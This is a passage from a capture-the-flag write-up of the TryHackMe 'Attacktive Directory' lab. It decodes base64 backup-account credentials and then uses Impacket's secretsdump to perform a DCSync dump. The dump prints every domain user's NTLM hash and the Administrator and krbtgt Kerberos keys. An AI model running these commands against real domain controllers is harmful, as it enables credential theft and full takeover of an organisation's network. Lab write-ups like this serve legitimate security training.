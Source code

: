 ```
```

6. Decoding the contents of the file, what is the full contents?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
backup@spookysec.local:backup2517860
```

`backup@spookysec.local:backup2517860`

## Task 7 Elevating Privileges

**Introduction:**

Now that we have new user account credentials, we may have more privileges on the system than before. The username of the account "backup" gets us thinking. What is this the backup account to?

Well, it is the backup account for the Domain Controller. This account has a unique permission that allows all Active Directory changes to be synced with this user account. This includes password hashes

![](https://blog.spookysec.net/img/dcsync.png)

Knowing this, we can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the AD Domain.

1. What method allowed us to dump NTDS.DIT?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ sudo python3 /opt/impacket/examples/secretsdump.py -dc-ip 10.10.225.245 spookysec.local/backup:backup2517860@10.10.225.245
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:789c25228cf453618013bb1f19335794:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
krbtgt:des-cbc-md5:b94f97e97fabbf5d
```